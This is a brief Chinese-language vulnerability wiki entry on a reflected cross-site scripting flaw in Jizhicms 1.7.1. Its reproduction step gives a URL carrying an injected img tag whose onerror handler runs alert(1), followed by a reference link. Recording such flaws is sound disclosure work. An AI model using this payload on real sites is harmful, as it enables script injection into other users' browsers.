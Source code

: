 Jizhicms 1.7.1 反射型xss
========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    https://wiki.0-sec.org/img/1'%3Cimg%20src=1%20onerror=alert(1)%3E--

![9.png](./.resource/Jizhicms1.7.1反射型xss/media/rId24.png)

四、参考链接
------------

> https://xz.aliyun.com/t/7775\#toc-2
